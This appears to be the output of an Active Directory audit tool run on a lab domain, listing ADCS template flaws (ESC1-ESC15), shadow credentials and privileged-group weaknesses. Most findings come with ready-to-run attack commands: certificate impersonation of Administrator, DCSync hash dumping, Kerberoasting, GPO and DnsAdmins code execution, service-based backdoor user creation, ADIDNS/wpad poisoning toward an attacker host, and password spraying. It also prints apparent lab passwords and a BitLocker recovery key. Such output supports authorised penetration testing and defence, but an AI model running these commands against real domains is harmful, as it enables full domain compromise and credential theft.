        # If RPC is filtered — Kerberos: impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache ; then add -k -no-pass -target 'DC01.corp.local' -ns 10.10.10.10 -dns-tcp
    Autorité de certification secondaire
          EKUs:  (none)
          Enrollable by:  Domain Admins, Enterprise Admins
          Exploit:  
        # EKUwu (CVE-2024-49019): inject an Application Policy into a V1 template.
        # Scenario A — direct impersonation (inject Client Authentication):
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'SubCA' -upn 'Administrator@corp.local' -sid '<target-SID>' -application-policies 'Client Authentication'
        certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
        # Scenario B — inject Certificate Request Agent, then enroll on-behalf-of (ESC3-style):
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'SubCA' -application-policies 'Certificate Request Agent'
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template User -pfx <agent>.pfx -on-behalf-of 'CORP\Administrator'
        # If RPC is filtered — Kerberos: impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache ; then add -k -no-pass -target 'DC01.corp.local' -ns 10.10.10.10 -dns-tcp
    ESC15-Test
          EKUs:  1.3.6.1.5.5.7.3.2, 1.3.6.1.5.5.7.3.4
          Enrollable by:  Domain Users, Domain Admins, Enterprise Admins
          Exploit:  
        # EKUwu (CVE-2024-49019): inject an Application Policy into a V1 template.
        # Scenario A — direct impersonation (inject Client Authentication):
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC15-Test' -upn 'Administrator@corp.local' -sid '<target-SID>' -application-policies 'Client Authentication'
        certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
        # Scenario B — inject Certificate Request Agent, then enroll on-behalf-of (ESC3-style):
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC15-Test' -application-policies 'Certificate Request Agent'
        certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template User -pfx <agent>.pfx -on-behalf-of 'CORP\Administrator'
        # If RPC is filtered — Kerberos: impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache ; then add -k -no-pass -target 'DC01.corp.local' -ns 10.10.10.10 -dns-tcp

  ── ESC4 — Dangerous Template ACL ──

    ESC4-Test
        Principal         SID                                             Permission
        ────────────────  ──────────────────────────────────────────────  ──────────
        corp.local\lowpriv  S-1-5-21-1111111111-2222222222-3333333333-1103  WriteDACL 

  ── ESC5 — Dangerous ACL on PKI objects ──

    NTAuthCertificates — publish a rogue CA cert → forge any auth
          Object:  CN=NTAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=lab
        Principal         SID                                             Right    
        ────────────────  ──────────────────────────────────────────────  ─────────
        corp.local\lowpriv  S-1-5-21-1111111111-2222222222-3333333333-1103  WriteDACL

  ── ESC14 — Weak explicit certificate mapping (altSecurityIdentities) ──
    [priv] svc-app
          Mapping:  X509:<RFC822>svc-app@corp.local

╔════════════════════════════════════════════════════════════╗
║                     SHADOW CREDENTIALS                     ║
╚════════════════════════════════════════════════════════════╝
[*] Objects with Shadow Credentials: 1 total | 1 privileged | 0 computers

  ── Key credentials ──
    Object   Kind  Key created  Usage  Device  Risk    
    ───────  ────  ───────────  ─────  ──────  ────────
    svc-app  User  2026-11-16   NGC    -       CRITICAL

╔════════════════════════════════════════════════════════════╗
║                         QUICK WINS                         ║
╚════════════════════════════════════════════════════════════╝
  [CRITICAL] Cleartext credential in description — svc-app
         Password candidate: Sup3rSecret1
         Full description:   Default password: Sup3rSecret1
         
         Re-run authenticated:
           python3 listdap.py -d corp.local -dc 10.10.10.10 -u svc-app -p 'Sup3rSecret1'
  [CRITICAL] Cleartext credential in info — svc-app
         Password candidate: Backup2026!
         Full info:   backup svc account, pwd: Backup2026!
         
         Re-run authenticated:
           python3 listdap.py -d corp.local -dc 10.10.10.10 -u svc-app -p 'Backup2026!'
  [CRITICAL] Cleartext credential in userPassword — svc-app
         Password: UnixSecret1
         
         Re-run authenticated:
           python3 listdap.py -d corp.local -dc 10.10.10.10 -u svc-app -p 'UnixSecret1'
  [CRITICAL] AS-REP Roasting — 1 account(s)
         Accounts: noauth
         impacket-GetNPUsers -request -dc-ip 10.10.10.10 -outputfile asrep.hashes 'corp.local/administrateur:P@ssw0rd!'
         # Kerberos (signing-enforced DC):
           impacket-getTGT 'corp.local/administrateur:P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache
           impacket-GetNPUsers -request -k -no-pass -dc-host DC01.corp.local -outputfile asrep.hashes 'corp.local/administrateur'
         hashcat -m 18200 asrep.hashes wordlist.txt
  [CRITICAL] Shadow-admin group 'Backup Operators' has 2 member(s)
         Members (2):
           • S-1-5-21-4444444444-5555555555-6666666666-1102  [FOREIGN]
           • lowpriv
         
         Escalation: Hold SeBackupPrivilege → read protected files (SAM/SYSTEM, and the DC's NTDS.dit via raw/VSS) remotely → offline hash extraction (DCSync-equiv).
         ⚠ Includes a FOREIGN (cross-domain) member → the escalation is reachable across a trust.
         If you control one of the members:
           impacket-reg '<DOM>/<member>:<password>'@10.10.10.10 backup -o '\\<ATTACKER>\share'
           impacket-secretsdump -sam SAM.save -system SYSTEM.save LOCAL   # + NTDS via the saved hives / BackupOperatorToolkit
  [CRITICAL] Shadow-admin group 'DnsAdmins' has 1 member(s)
         Members (1):
           • lowpriv
         
         Escalation: Reconfigure the DNS service (ServerLevelPluginDll) to load an arbitrary DLL → code execution as SYSTEM on the DC when the service restarts.
         If you control one of the members:
           # set the plugin DLL (UNC to an attacker share), then bounce the service:
           dnscmd 10.10.10.10 /config /serverlevelplugindll \\<ATTACKER>\share\poc.dll
           sc.exe \\10.10.10.10 stop dns && sc.exe \\10.10.10.10 start dns
  [CRITICAL] Shadow-admin group 'Schema Admins' has 2 member(s)
         Members (2):
           • svc-app
           • Administrateur
         
         Escalation: Modify the AD schema — e.g. alter a class defaultSecurityDescriptor so every newly created object of that class is attacker-controlled (stealth persistence). Default-empty: any member is notable.
  [CRITICAL] Shadow-admin group 'Server Operators' has 1 member(s)
         Members (1):
           • svc-app
         
         Escalation: Create/modify services on domain controllers → run a command as SYSTEM on a DC.
         If you control one of the members:
           impacket-services '<DOM>/<member>:<password>'@10.10.10.10 create -name svc -display svc -path 'C:\Windows\System32\cmd.exe /c net user x P@ss1! /add'
           impacket-services '<DOM>/<member>:<password>'@10.10.10.10 start -name svc
  [CRITICAL] GPO 'Lab-DC-Hardening' is editable by a non-privileged principal
         Editable by: corp.local\lowpriv
         Linked scope: Domain Controllers OU
         A write right on the GPO = code execution on every computer/user in that scope (scheduled task / startup script / immediate task). If you control one of the principals above:
           # Linux (pyGPOAbuse) — adds a scheduled task running as SYSTEM:
           python3 pygpoabuse.py 'corp.local\administrateur:<password>' -gpo-id '{499860F9-95D9-4DBB-855F-772848F3B28E}' -dc-ip 10.10.10.10 -command 'net user hacker P@ssw0rd! /add && net localgroup administrators hacker /add'
           # Windows (SharpGPOAbuse):
           SharpGPOAbuse.exe --AddComputerTask --TaskName Update --Author corp.local\administrateur --Command cmd.exe --Arguments "/c net user ..." --GPOName "Lab-DC-Hardening"
  [CRITICAL] dMSA dMSA01$ — supersedes a PRIVILEGED account (BadSuccessor)
         This delegated MSA is linked to a privileged account via msDS-ManagedAccountPrecededByLink. Authenticating as the dMSA yields the superseded account's privileges (its KERB key list is migrated).
           # Request a TGT for the dMSA and inspect the migrated keys:
           certipy-ad / impacket getTGT as the dMSA, then use the PAC/keys.
  [CRITICAL] Foreign principal in a privileged group via external trust with partner.local
         The external SID S-1-5-21-4444444444-5555555555-6666666666-1102 via external trust with partner.local is a (transitive) member of privileged group(s): Opérateurs de sauvegarde [CRITICAL: Backup Operators].
         Compromising this principal in its home domain grants that privilege here — an often-overlooked cross-trust escalation / persistence path.
           # resolve / audit the principal from the trusted side; its RID: 1102
  [CRITICAL] Unexpected DCSync rights — 1 principal(s)
         These accounts can dump all domain hashes (DCSync attack):
           corp.local\lowpriv (S-1-5-21-1111111111-2222222222-3333333333-1103)
         If you control one of them (or already are privileged):
         impacket-secretsdump -just-dc -dc-ip 10.10.10.10 'corp.local/administrateur:P@ssw0rd!@10.10.10.10'
         # Kerberos (signing-enforced DC):
           impacket-getTGT 'corp.local/administrateur:P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache
           impacket-secretsdump -just-dc -k -no-pass 'corp.local/administrateur@DC01.corp.local'
  [CRITICAL] Windows LAPS passwords readable — 1 computer(s)
         Accounts: WEB01
  [CRITICAL] BitLocker — 1 recovery key(s) readable
         The current identity can read BitLocker recovery passwords from AD → offline access to the encrypted volume(s):
           - WEB01: 123456-234567-345678-456789-567890-678901-789012-890123  (GUID 75b0fb3d-44fb-4919-941e-94a5dd4dc7fd)
           # Windows: manage-bde -unlock <X>: -RecoveryPassword <48-digit>
           # Linux (image/device): dislocker -r -p<48-digit> -V <device> -- /mnt/bl && mount -o loop,ro /mnt/bl/dislocker-file /mnt/clear
  [CRITICAL] ESC1 — 3 vulnerable template(s)
         Allows requesting a certificate with an arbitrary SAN (e.g., Domain Admin UPN).
         Enrollable by a principal the current identity controls:
           - Autorité de certification secondaire  (enrollable by: Domain Admins, Enterprise Admins)
               # Direct (RPC/DCOM — needs TCP 135 + dynamic RPC ports open to the CA):
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'SubCA' -upn 'Administrator@corp.local'
               certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
               # If RPC is filtered ('No route to host' / endpoint mapper) — use Kerberos:
               impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10
               export KRB5CCNAME=administrateur.ccache
               certipy-ad req -u 'administrateur@corp.local' -k -no-pass -target 'DC01.corp.local' -dc-ip 10.10.10.10 -ns 10.10.10.10 -dns-tcp -ca 'corp-CA' -template 'SubCA' -upn 'Administrator@corp.local'
               certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
           - ESC1-Test  (enrollable by: Domain Users, Domain Admins, Enterprise Admins)
               # Direct (RPC/DCOM — needs TCP 135 + dynamic RPC ports open to the CA):
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC1-Test' -upn 'Administrator@corp.local'
               certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
               # If RPC is filtered ('No route to host' / endpoint mapper) — use Kerberos:
               impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10
               export KRB5CCNAME=administrateur.ccache
               certipy-ad req -u 'administrateur@corp.local' -k -no-pass -target 'DC01.corp.local' -dc-ip 10.10.10.10 -ns 10.10.10.10 -dns-tcp -ca 'corp-CA' -template 'ESC1-Test' -upn 'Administrator@corp.local'
               certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
           - ESC15-Test  (enrollable by: Domain Users, Domain Admins, Enterprise Admins)
               # Direct (RPC/DCOM — needs TCP 135 + dynamic RPC ports open to the CA):
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC15-Test' -upn 'Administrator@corp.local'
               certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
               # If RPC is filtered ('No route to host' / endpoint mapper) — use Kerberos:
               impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10
               export KRB5CCNAME=administrateur.ccache
               certipy-ad req -u 'administrateur@corp.local' -k -no-pass -target 'DC01.corp.local' -dc-ip 10.10.10.10 -ns 10.10.10.10 -dns-tcp -ca 'corp-CA' -template 'ESC15-Test' -upn 'Administrator@corp.local'
               certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
  [CRITICAL] ESC15 — 3 vulnerable template(s)
         V1 templates copy an attacker-supplied Application Policies extension from the CSR. Inject Client Authentication (or Certificate Request Agent) to turn this cert into an auth cert for an arbitrary UPN.
         Enrollable by a principal the current identity controls:
           - Serveur Web  (enrollable by: Domain Admins, Enterprise Admins)
               # EKUwu (CVE-2024-49019): inject an Application Policy into a V1 template.
               # Scenario A — direct impersonation (inject Client Authentication):
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'WebServer' -upn 'Administrator@corp.local' -sid '<target-SID>' -application-policies 'Client Authentication'
               certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
               # Scenario B — inject Certificate Request Agent, then enroll on-behalf-of (ESC3-style):
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'WebServer' -application-policies 'Certificate Request Agent'
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template User -pfx <agent>.pfx -on-behalf-of 'CORP\Administrator'
               # If RPC is filtered — Kerberos: impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache ; then add -k -no-pass -target 'DC01.corp.local' -ns 10.10.10.10 -dns-tcp
           - Autorité de certification secondaire  (enrollable by: Domain Admins, Enterprise Admins)
               # EKUwu (CVE-2024-49019): inject an Application Policy into a V1 template.
               # Scenario A — direct impersonation (inject Client Authentication):
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'SubCA' -upn 'Administrator@corp.local' -sid '<target-SID>' -application-policies 'Client Authentication'
               certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
               # Scenario B — inject Certificate Request Agent, then enroll on-behalf-of (ESC3-style):
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'SubCA' -application-policies 'Certificate Request Agent'
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template User -pfx <agent>.pfx -on-behalf-of 'CORP\Administrator'
               # If RPC is filtered — Kerberos: impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache ; then add -k -no-pass -target 'DC01.corp.local' -ns 10.10.10.10 -dns-tcp
           - ESC15-Test  (enrollable by: Domain Users, Domain Admins, Enterprise Admins)
               # EKUwu (CVE-2024-49019): inject an Application Policy into a V1 template.
               # Scenario A — direct impersonation (inject Client Authentication):
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC15-Test' -upn 'Administrator@corp.local' -sid '<target-SID>' -application-policies 'Client Authentication'
               certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
               # Scenario B — inject Certificate Request Agent, then enroll on-behalf-of (ESC3-style):
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC15-Test' -application-policies 'Certificate Request Agent'
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template User -pfx <agent>.pfx -on-behalf-of 'CORP\Administrator'
               # If RPC is filtered — Kerberos: impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache ; then add -k -no-pass -target 'DC01.corp.local' -ns 10.10.10.10 -dns-tcp
  [CRITICAL] ESC5 — non-privileged control over 1 PKI object(s)
         A non-privileged principal can take over PKI infrastructure object(s) → CA / forest compromise:
           - NTAuthCertificates — publish a rogue CA cert → forge any auth
               CN=NTAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=lab
               controlled by: corp.local\lowpriv
         Confirm & map the PKI: certipy-ad find -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -stdout -text
  [CRITICAL] ESC14 — weak explicit cert mapping on 1 account(s)
         Account(s) carry a weak altSecurityIdentities mapping (subject / issuer+subject / RFC822-email based). An attacker who obtains a certificate matching the mapping authenticates AS that account — critical when the account is privileged.
         Accounts: svc-app
         # Confirm exploitability — read the DC KDC strong-mapping enforcement (remote registry; usually needs admin):
         impacket-reg 'corp.local/administrateur:P@ssw0rd!@10.10.10.10' query -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Kdc' -v StrongCertificateBindingEnforcement
         #   0 disabled / 1 compatibility  → weak mappings honored (EXPLOITABLE)
         #   2 full enforcement            → weak mappings rejected (NOT exploitable)
         # Schannel side (TLS client-cert auth):
         impacket-reg 'corp.local/administrateur:P@ssw0rd!@10.10.10.10' query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel' -v CertificateMappingMethods
         # Functional confirmation as low-priv (no admin): obtain a cert matching a weak mapping and authenticate as the victim:
         #   certipy-ad auth -pfx <matching-cert>.pfx -dc-ip 10.10.10.10 -domain corp.local
         # Setup vector (who can SET altSecurityIdentities on a victim) is an ACL finding — see the ACLs module / certipy-ad find.
  [CRITICAL] Shadow Credentials — 1 critical-risk object(s)
         msDS-KeyCredentialLink → PKINIT as the target and NT-hash recovery.
         Key credentials on PRIVILEGED accounts (krbtgt / DC / admin) — a planted key here is full compromise / persistence. Verify each creation time against a known enrollment:
           - svc-app (User, 1 key(s), created 2026-11-16)
         certipy-ad shadow auto -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -account svc-app
         # Kerberos (signing-enforced DC):
           impacket-getTGT 'corp.local/administrateur:P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache
           certipy-ad shadow auto -u 'administrateur@corp.local' -k -no-pass -dc-ip 10.10.10.10 -account svc-app
  [HIGH] MachineAccountQuota = 10
         Any authenticated user can add machine accounts to the domain — enables RBCD attacks.
         # 1) create a machine account (MachineAccountQuota > 0):
         impacket-addcomputer -computer-name 'EVIL$' -computer-pass 'Passw0rd!' -dc-ip 10.10.10.10 'corp.local/administrateur:P@ssw0rd!'
         # 2) set RBCD on a target you control the DNS/write for, then get a ticket:
         impacket-rbcd -delegate-from 'EVIL$' -delegate-to '<TARGET$>' -action write -dc-ip 10.10.10.10 'corp.local/administrateur:P@ssw0rd!'
         impacket-getST -spn 'cifs/<target.fqdn>' -impersonate Administrator -dc-ip 10.10.10.10 'corp.local/EVIL$:Passw0rd!'
         # (Kerberos auth for steps 1-2: impacket-getTGT 'corp.local/administrateur:P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache ; add -k -no-pass)
  [HIGH] Kerberoasting — 2 account(s)
         Accounts: svc-rc4, svc-sql
         impacket-GetUserSPNs -request -dc-ip 10.10.10.10 -outputfile kerberoast.hashes 'corp.local/administrateur:P@ssw0rd!'
         # Kerberos (signing-enforced DC):
           impacket-getTGT 'corp.local/administrateur:P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache
           impacket-GetUserSPNs -request -k -no-pass -dc-host DC01.corp.local -outputfile kerberoast.hashes 'corp.local/administrateur'
         hashcat -m 13100 kerberoast.hashes wordlist.txt
  [HIGH] Reversible password encryption — 1 account(s)
         These accounts store their password reversibly (RC4 under the SYSKEY), so a DCSync / secretsdump recovers the CLEARTEXT password, not just the NT hash (look under the 'ClearText' / Kerberos-keys section):
           reverse-user
         impacket-secretsdump -just-dc -dc-ip 10.10.10.10 'corp.local/administrateur:P@ssw0rd!@10.10.10.10'
         # Kerberos (signing-enforced DC):
           impacket-getTGT 'corp.local/administrateur:P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache
           impacket-secretsdump -just-dc -k -no-pass 'corp.local/administrateur@DC01.corp.local'
  [HIGH] DES Kerberos encryption enabled on 1 account(s)
         These accounts advertise DES — any Kerberos material for them is trivially crackable (and DES-only breaks modern defaults):
           svc-des
         Roast/crack as usual; the recovered key is near-instant to break.
  [HIGH] Shadow-admin group 'Account Operators' has 1 member(s)
         Members (1):
           • svc-sql
         
         Escalation: Create/modify and reset passwords of non-protected (non-adminCount) users and groups. Chain: add yourself to an unprotected but powerful group (DnsAdmins, Server/Print Operators, Exchange groups) → escalate.
  [HIGH] Shadow-admin group 'Group Policy Creator Owners' has 1 member(s)
         Members (1):
           • Administrateur
         
         Escalation: Create new GPOs; with a link/edit right this is code execution in the linked scope (cross-check the gpo module).
  [HIGH] Shadow-admin group 'Pre-Windows 2000 Compatible Access' has 2 member(s)
         Members (2):
           • DC01
           • Authenticated Users  [FOREIGN]
         
         Escalation: If this group contains Everyone / Anonymous, large parts of AD become readable without authentication (legacy anonymous enumeration).
         ⚠ Includes a FOREIGN (cross-domain) member → the escalation is reachable across a trust.
  [HIGH] Unconstrained Delegation — 1 computer(s)
         These machines store TGTs of all connecting users in memory.
         Compromise → PrinterBug / PetitPotam to coerce DC → DCSync.
         Targets: WEB01
  [HIGH] No account lockout policy
         Unlimited password spraying / brute-force is possible without locking accounts.
         # No lockout — spray safely (nxc signs automatically):
         nxc smb 10.10.10.10 -u users.txt -p passwords.txt --no-bruteforce --continue-on-success
         nxc ldap 10.10.10.10 -u users.txt -p passwords.txt --no-bruteforce --continue-on-success
  [HIGH] Reversible password encryption enabled DOMAIN-WIDE
         pwdProperties has DOMAIN_PASSWORD_STORE_CLEARTEXT (0x10) set, so EVERY account stores its password reversibly (RC4 under the SYSKEY). A DCSync / secretsdump then recovers CLEARTEXT passwords, not just NT hashes (see the 'ClearText' section of the output).
         impacket-secretsdump -just-dc -dc-ip 10.10.10.10 'corp.local/administrateur:P@ssw0rd!@10.10.10.10'
         # Kerberos (signing-enforced DC):
           impacket-getTGT 'corp.local/administrateur:P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache
           impacket-secretsdump -just-dc -k -no-pass 'corp.local/administrateur@DC01.corp.local'
  [HIGH] ADIDNS spoofing — 'Authenticated Users' can create records in zone corp.local
         The zone DACL grants Create-Child to Authenticated Users (S-1-5-11), so this identity can add arbitrary DNS records → NTLM coercion / relay (point a resolved-but-missing name, or wpad, at an attacker host). NOTE: a '*' wildcard already exists in this zone → it answers unresolved queries, so planting a new missing-name / wpad record is largely neutralised; overwriting the existing '*' is the path instead (see 'writable records').
           # dirkjanm dnstool.py (impacket):
           python3 dnstool.py -u 'corp.local\administrateur' -p '<password>' --action add --record wpad --data <ATTACKER_IP> --type A --zone corp.local 10.10.10.10
           # or Powermad (from a domain-joined Windows host):
           Invoke-DNSUpdate -DNSType A -DNSName wpad -DNSData <ATTACKER_IP>
  [HIGH] ADIDNS spoofing — 'Authenticated Users' can create records in zone _msdcs.corp.local
         The zone DACL grants Create-Child to Authenticated Users (S-1-5-11), so this identity can add arbitrary DNS records → NTLM coercion / relay (point a resolved-but-missing name, or wpad, at an attacker host). wpad is ABSENT → add it to coerce WPAD clients. No '*' wildcard exists → creating one is a DOMAIN-WIDE catch-all for every unresolved name (strongest):
           python3 dnstool.py -u 'corp.local\administrateur' -p '<password>' --action add --record '*' --data <ATTACKER_IP> --type A --zone _msdcs.corp.local 10.10.10.10
           # dirkjanm dnstool.py (impacket):
           python3 dnstool.py -u 'corp.local\administrateur' -p '<password>' --action add --record wpad --data <ATTACKER_IP> --type A --zone _msdcs.corp.local 10.10.10.10
           # or Powermad (from a domain-joined Windows host):
           Invoke-DNSUpdate -DNSType A -DNSName wpad -DNSData <ATTACKER_IP>
  [HIGH] ADIDNS — 1 existing record(s) writable by non-priv principals
         A non-privileged principal can overwrite these existing DNS records → hijack a legitimate name (redirect a server's A record to an attacker host for coercion / MITM).
           - legacy-app.corp.local (A) writable by corp.local\lowpriv
           # overwrite with dnstool.py --action modify:
           python3 dnstool.py -u 'corp.local\administrateur' -p '<password>' --action modify --record <name> --data <ATTACKER_IP> --type A --zone <zone> 10.10.10.10
  [HIGH] Unconstrained Delegation — 1 account(s)
         Compromise these accounts → capture TGTs of any connecting user (incl. DA).
         Accounts: WEB01$
         # With control of 'WEB01$', capture TGTs of coerced callers:
         impacket-krbrelayx -t ldap://<dc> --no-dump   # or Rubeus monitor on the host
         # coerce a DC/privileged host to authenticate to 'WEB01$':
         coercer coerce -l <attacker-ip> -t <dc-ip> -u 'administrateur' -p 'P@ssw0rd!' -d corp.local --always-continue
  [HIGH] ESC2 — 1 vulnerable template(s)
         Certificate can be used for any purpose including authentication.
         Enrollable by a principal the current identity controls:
           - ESC2-Test  (enrollable by: Domain Users, Domain Admins, Enterprise Admins)
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC2-Test'
               # Any-Purpose/SubCA cert — usable for client auth; then certipy-ad auth -pfx <out>.pfx -dc-ip 10.10.10.10
               # If RPC is filtered — Kerberos: impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache
               certipy-ad req -u 'administrateur@corp.local' -k -no-pass -target 'DC01.corp.local' -dc-ip 10.10.10.10 -ns 10.10.10.10 -dns-tcp -ca 'corp-CA' -template 'ESC2-Test'
  [HIGH] ESC3 — 1 vulnerable template(s)
         Allows enrolling on behalf of other users → impersonate any user.
         Enrollable by a principal the current identity controls:
           - ESC3-Test  (enrollable by: Domain Users, Domain Admins, Enterprise Admins)
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC3-Test'   # enrollment-agent cert
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template User -pfx <agent>.pfx -on-behalf-of 'CORP\Administrator'
               certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
               # If RPC is filtered — Kerberos (add: impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10 && export KRB5CCNAME=administrateur.ccache ; then -k -no-pass -target 'DC01.corp.local' -ns 10.10.10.10 -dns-tcp to each req)
  [HIGH] ESC9 — 1 vulnerable template(s)
         Issued certificates omit the SID security extension. Combined with a weak certificate mapping on the DC (ESC10/altSecurityIdentities), a low-priv user can enroll and impersonate another account.
         Pair with: certipy req … then account-mapping abuse.
         Enrollable by a principal the current identity controls:
           - ESC9-Test  (enrollable by: Domain Users, Domain Admins, Enterprise Admins)
               # Direct (RPC/DCOM — needs TCP 135 + dynamic RPC ports open to the CA):
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC9-Test' -upn 'Administrator@corp.local'
               certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
               # If RPC is filtered ('No route to host' / endpoint mapper) — use Kerberos:
               impacket-getTGT corp.local/administrateur:'P@ssw0rd!' -dc-ip 10.10.10.10
               export KRB5CCNAME=administrateur.ccache
               certipy-ad req -u 'administrateur@corp.local' -k -no-pass -target 'DC01.corp.local' -dc-ip 10.10.10.10 -ns 10.10.10.10 -dns-tcp -ca 'corp-CA' -template 'ESC9-Test' -upn 'Administrator@corp.local'
               certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.10
  [HIGH] ESC13 — 1 vulnerable template(s)
         Certificates from this template confer membership of the linked AD group via the PKINIT PAC — privilege escalation without joining it.
         Enrollable by a principal the current identity controls:
           - ESC13-Test  (enrollable by: Domain Users, Domain Admins, Enterprise Admins)
               certipy-ad req -u 'administrateur@corp.local' -p 'P@ssw0rd!' -dc-ip 10.10.10.10 -ca 'corp-CA' -template 'ESC13-Test'   # issued cert carries the OID-linked group
               certipy-ad auth -pfx administrateur.pfx -dc-ip 10.10.10.10   # PKINIT PAC now grants: ESC13-Admins
               # No SAN needed — the issuance policy confers membership of ESC13-Admins on any enrollee.
  [HIGH] ESC4 — Dangerous ACL on 1 template(s)
         A low-priv user can modify the template to introduce ESC1/ESC2.
         ESC4-Test
  [MEDIUM] PASSWD_NOTREQD — 3 account(s)
         These accounts may have an empty password.
         # Test for empty passwords on: Invité,nopwd,PARTNER$
         nxc smb 10.10.10.10 -u Invité nopwd PARTNER$ -p ''
  [MEDIUM] AdminSDHolder orphans — 1 stale privileged account(s)
         These carry adminCount=1 but are no longer a (transitive) member of any protected group. They were privileged once → expect residual access, a stale locked-down ACL (inheritance still disabled), or an adminCount persistence marker. Review each:
           stale-admin
  [MEDIUM] RC4 Kerberos surface on 3 roastable account(s)
         Roastable accounts that still accept RC4: request an RC4 ticket to get an etype-23 hash (hashcat -m 13100 / -m 18200, fast) instead of slow AES — a downgrade even when AES is also supported:
           svc-rc4, svc-sql, noauth
  [MEDIUM] Shadow-admin group 'Cert Publishers' has 1 member(s)
         Members (1):
           • DC01
         
         Escalation: Members' hosts are trusted to publish certificates; relevant to ADCS / NTAuth review (cross-check the adcs module).
